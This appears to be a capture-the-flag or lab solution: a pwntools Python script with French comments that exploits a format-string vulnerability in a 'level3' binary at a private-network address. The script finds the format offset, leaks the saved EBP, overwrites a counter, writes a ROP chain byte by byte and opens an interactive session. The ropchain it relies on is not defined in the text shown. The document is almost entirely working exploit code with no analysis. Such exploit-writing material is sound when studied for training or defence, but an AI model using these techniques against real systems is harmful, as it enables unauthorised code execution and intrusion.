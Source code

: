 ```python
# p = process('./level3', stdin=process.PTY, stdout=process.PTY)                                                       
p = remote("192.168.56.83", 44101)

def exec_fmt(payload):
    global p
    try:
        p.readuntil(b"guess: ")
    except EOFError:
        p.close()
        # p = process('./level3', stdin=process.PTY, stdout=process.PTY)
        p = remote("192.168.56.83", 44101)
        p.readuntil(b"guess: ")

    p.sendline(b"40" + payload)
    buff = p.recvline()
    return buff

# Utilise la fonction de callback pour communiquer avec le programme
# FmtStr fait le reste de la magie
autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
info("offset is at dword %d", offset)
p.close()

# p = process('./level3', stdin=process.PTY, stdout=process.PTY)
p = remote("192.168.56.83", 44101)
p.readuntil(b"guess: ")
# dump de saved ebp. Malheureusement pwntools n'offre rien pour extraire les données
# je réutilise un payload similaire à celui du pwntools (obtenu via un simple print dans exec_fmt)
p.sendline(b"40aaaabaaacaaadaaaeaaaSTART%141$08xEND")
buff = p.readlineS()
saved_ebp_addr = int(re.search(r"START(.*)END", buff).group(1), 16)
print(f"Saved EBP = {hex(saved_ebp_addr)}")

# On se débarasse du compteur
print(f"Ecriture de 31337 à l'adresse {saved_ebp_addr - 600:08x}")
autofmt.write(saved_ebp_addr - 600, 31337)
autofmt.execute_writes()
dest_addr = saved_ebp_addr - 60

for offset, value in enumerate(ropchain):
    payload = fmtstr_payload(11, {dest_addr + 4*offset: value}, write_size='byte', numbwritten=15)
    p.sendline(b"40aa" + payload)
    p.readuntil(b"guess: ")

p.sendline(b"exit")
p.interactive()
p.close()
```
